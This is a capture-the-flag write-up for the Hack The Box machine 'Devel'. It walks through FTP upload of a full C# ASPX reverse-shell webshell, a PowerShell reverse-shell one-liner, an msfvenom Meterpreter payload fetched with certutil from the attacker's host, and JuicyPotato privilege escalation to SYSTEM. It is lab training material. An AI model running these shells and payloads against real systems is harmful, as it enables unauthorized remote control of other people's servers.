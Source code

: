# Devel Writeup - by Thammanant Thamtaranon  
- Devel is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -Pn -p- 10.10.10.5
```
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed two open ports:  
  - 21 (FTP)  
  - 80 (HTTP)

## Scanning & Enumeration  
- We connected to FTP using `anonymous` login.  
![FTP](FTP.png)  

## Exploitation  
- We then generated a webshell `shell.aspx`:
```bash
<%@ Page Language="C#" Debug="true" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.IO" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e)
{
    try
    {
        string host = "10.10.16.8";  // Attacker IP
        int port = 4444;             // Listening port

        using (TcpClient client = new TcpClient(host, port))
        using (Stream stream = client.GetStream())
        using (StreamReader reader = new StreamReader(stream))
        using (StreamWriter writer = new StreamWriter(stream))
        {
            writer.AutoFlush = true;
            string inputLine;
            while ((inputLine = reader.ReadLine()) != null)
            {
                try
                {
                    Process p = new Process();
                    p.StartInfo.FileName = "cmd.exe";
                    p.StartInfo.Arguments = "/c " + inputLine;
                    p.StartInfo.RedirectStandardOutput = true;
                    p.StartInfo.RedirectStandardError = true;
                    p.StartInfo.UseShellExecute = false;
                    p.StartInfo.CreateNoWindow = true;
                    p.Start();

                    string output = p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd();
                    writer.WriteLine(output);
                }
                catch (Exception ex)
                {
                    writer.WriteLine("Error: " + ex.Message);
                }
            }
        }
    }
    catch { }
}
</script>
```
- We uploaded the file to the server via FTP.  
![Put](Put.png)  
- Navigating to `http://10.10.10.5/shell.aspx` gave us a shell as `iis apppool\web`.
![Shell](Shell.png)   
- The shell was not interactive, so we upgraded it with PowerShell:
```bash 
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.8',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length)};$client.Close()"
```
- We now had an interactive PowerShell shell.

## Privilege Escalation  
- Running `whoami /priv` and `whoami /groups` revealed the `SeImpersonatePrivilege` was available.  
![Priv](Priv.png)  
- Using this, we prepared a payload:
```bash 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=4444 -f exe -o shell.exe  
```
- Uploaded the payload to the server using:
```bash
certutil -urlcache -split -f http://10.10.16.8:8000/shell.exe shell.exe
```

- Executing it gave us a Meterpreter session.  
![Meterpreter](Meterpreter.png)  

- We backgrounded the session and used `JuicyPotato` for privilege escalation via Metasploit:  
  - Exploit module: `exploit/windows/local/ms16_075_reflection_juicy`  
  - Filled in the required options and ran the exploit.  

- This successfully gave us a `SYSTEM` shell.  
![SYSTEM](SYSTEM.png)  

- Finally, we captured both the user and root flags.
